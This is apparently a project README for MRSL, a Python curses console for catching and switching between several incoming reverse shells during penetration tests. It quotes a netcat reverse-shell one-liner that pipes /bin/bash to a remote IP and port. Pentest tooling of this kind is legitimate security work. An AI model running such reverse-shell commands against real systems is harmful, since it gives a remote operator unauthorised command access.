 # MRSL
Multi reverse shell/session listener

Simple python script that uses the curses module to present a console based UI for listening for multiple incoming connnections on a defined port. Originally created to listen for multiple reverse shells during pentests where not using metasploit, think listening for multiple \`nc -e /bin/bash \<ip\> \<port\>\` connections. It can also be used for just listening for incoming connections on an arbitrary port, for instance listening on port 80 on the internet can be interesting.

Current features:
* Automatic logging of all connections to a file, named \<IP\>--\<timestamp\>.log
* Ability to see all active connections and switch between them
* Ability to type data back, i.e. to run commands in reverse shell or return data to HTTP connections


More features are planned, but the initial version was created just to serve a current need.

Feedback and pull requests for bugfixes and features are welcome.
